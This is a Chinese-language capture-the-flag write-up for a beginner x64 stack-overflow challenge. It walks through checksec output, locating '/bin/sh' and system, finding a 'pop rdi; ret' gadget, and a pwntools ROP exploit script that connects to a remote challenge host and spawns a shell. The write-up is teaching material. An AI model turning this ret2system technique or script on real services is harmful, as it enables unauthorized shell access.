

# {{$frontmatter.title}}
[[toc]]

> 64位寄存器8个字节，传参是寄存器+栈，rdi,rsi,rdx,rcx,r8,r9按顺序依次

## 基础检查
> 本例题是PolarD&N的基础入门pwn题 x64
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ file x64                                            
x64: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=3497b5907db0d7099f07ea1f7b3ee9ef6761c412, not stripped
                                                                                                       
┌──(kali㉿kali)-[~/win/Downloads]
└─$ checksec --file=x64 
[*] '/home/kali/win/Downloads/x64'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```
64位小端序，没有保护

## IDA反编译源码




没有可供直接利用的getshell函数，因此需要自己构造
溢出函数是read 且缓冲区大小是0x80h
摁下shift+F12查看字符串


> 0000000000601060

存在/bin/sh 字符串及其地址，寻找system函数地址


> 0000000000400560


## 传参/bin/sh给system
### 使用ROPgadget找到rdi传入参数
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ ROPgadget --binary x64 --only "pop|ret" | grep "rdi"
0x00000000004007e3 : pop rdi ; ret
```
为什么是 pop rdi；ret
?
pop 是弹出栈上的值给rdi 也就是 rdi被赋值

而ret就是把 弹出栈上的值给rip 导致程序的执行跳转到栈上的某个地址

**而之前的直接填入函数地址而是因为他的位置就在函数调用结束后的返回地址，做了一个覆盖**

64位函数调用先用寄存器传参数 rdi,rsi,rdx,rcx,r8,r9按顺序依次


## 编写exp脚本
```py
from pwn import *
context(os="linux", arch='amd64')
# io = process('./x64')
io = remote("120.46.59.242",2115)

padding = 0x80 + 8 # rbp

system_addr = 0x400560
sh_addr = 0x601060

rdi_ret = 0x00000000004007e3

payload = b'a' * padding + p64(rdi_ret) + p64(sh_addr) + p64(system_addr)

io.sendline(payload)
io.interactive()
```
**为什么顺序是 a*padding; pop rdi;ret sh_addr; system_addr;**
- **先填充缓冲区覆盖当前函数的返回地址位pop rdi;ret 这里**
- **当执行pop rdi的时候，会从栈里面取走sh_addr，这时，栈里只剩system_addr;**
- **此时剩ret指令 （pop rip） 正好将rip指向system函数，完成跳转**
> 建议自己调试查看栈空间内容即可理解

> 参考
> https://blog.csdn.net/qq_31343581/article/details/119996405